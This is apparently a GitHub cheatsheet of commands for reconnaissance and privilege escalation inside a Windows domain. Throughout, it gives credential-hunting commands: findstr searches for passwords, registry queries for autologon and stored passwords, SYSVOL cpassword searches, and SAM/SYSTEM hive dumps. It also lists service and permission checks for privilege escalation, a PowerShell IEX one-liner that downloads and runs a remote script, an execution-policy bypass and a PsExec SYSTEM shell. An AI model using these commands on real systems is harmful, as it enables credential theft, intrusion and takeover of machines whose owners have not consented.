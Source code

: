 #This cheatsheet is for recon of a windows environnement starting with a simple computer member of the domain.

#get iP configuration
ipconfig /all 

#check existing route

route print
Get-NetRoute -AddressFamily IPv4 | ft DestinationPrefix,NextHop,RouteMetric,ifIndex

#check local firewall state

netsh firewall show state
Get-NetFirewallProfile


#check Arp Cache 

arp -a
Get-NetNeighbor -AddressFamily IPv4 | ft ifIndex,IPAddress,LinkLayerAddress,State


#Get account Information

whoami /all

#get information about the system

systeminfo

#Check Update :

wmic qfe list brief
wmic qfe get Caption,Description,HotFixID,InstalledOn

#Check Hosts file 

get-content C:\WINDOWS\System32\drivers\etc\hosts

#check privilege 

whoami /priv

#get all local user

net user
Get-LocalUser | ft Name,Enabled,LastLogon

#get all local group

net localgroup
Get-LocalGroup | ft Name


#check member of local group

net localgroup administrateurs

#get member of domain admin groups

net group /domain "admins du domaine"
net group /domain "Domain admins"

#get intel of a specific domain User 

net user /DOMAIN administrator

#Identify all domain controller 

[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain().DomainControllers

#Identify DnS server, it many case in WIndow Env it's a domain Controller

Get-DnsClientServerAddress -AddressFamily IPv4 | ft

#check password in file ;)

findstr /si password *.txt
findstr /si password *.xml
findstr /si password *.ini
findstr /si password *.conf


#check password in all files

findstr /spin "password" *.*


#Get Applied GPO  

gpresult /h GPO.html /f

#identify network share 

net use

#list local share

Get-SmbShare
net share

#Get all share of remote server

net view \\servernameorIP

#Check auto logon credential

reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"
Get-ItemProperty -Path 'Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon' | select "Default*"


#Acces SAM

%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system


#Check Right to identify leverafe for privesc

icacls "C:\Program Files\*" 2>nul | findstr "(F)" | findstr "Everyone"
icacls "C:\Program Files\*" 2>nul | findstr "(F)" | findstr "tout le monde"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(F)" | findstr "Everyone"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(F)" | findstr "tout le monde"

icacls "C:\Program Files\*" 2>nul | findstr "(F)" | findstr "BUILTIN\Users"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(F)" | findstr "BUILTIN\Users" 


icacls "C:\Program Files\*" 2>nul | findstr "(M)" | findstr "Everyone"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(M)" | findstr "Everyone"

icacls "C:\Program Files\*" 2>nul | findstr "(M)" | findstr "tout le monde"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(M)" | findstr "tout le monde"

icacls "C:\Program Files\*" 2>nul | findstr "(M)" | findstr "BUILTIN\Users" 
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(M)" | findstr "BUILTIN\Users" 


#List ScheduledTask

schtasks /query /fo LIST 2>nul | findstr TaskName
dir C:\windows\tasks
Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State,

#List service where the executable files is not in C:\Windows 

gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.PathName -notlike "C:\Windows*" } | select PathName,DisplayName,Name

#List Unquoted service Path

wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
#check password in regigistre
reg query HKCU /f password /t REG_SZ /s
reg query HKLM /f password /t REG_SZ /s 

#PowerShell One-Line Script Execution in Memory

IEX(New-Object Net.WebClient).downloadString('http://server/script.ps1')

#powershell bypass execution policy

powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1


#Powershell identify server 2003 in the current domain 

([adsisearcher]'(OperatingSystem=Windows Server 2003*)').FindAll()

#Powershell identify all Window in the current 

([adsisearcher]'(OperatingSystem=Windows*)').FindAll()

#Psexec to run a shell as system

 PSEXEC -i -s -d CMD

#Check cpassword in SYSVOL to identify 
findstr /si cpassword *.xml

#dump sam 

reg save hklm\sam sam.hiv
reg save hklm\system sys.hiv
#some other interessing files
c:\sysprep.inf
c:\sysprep\sysprep.xml
c:\unattend.xml
%WINDIR%\Panther\Unattend\Unattended.xml
%WINDIR%\Panther\Unattended.xml

dir c:\*vnc.ini /s /b
dir c:\*ultravnc.ini /s /b 
dir c:\ /s /b | findstr /si *vnc.ini

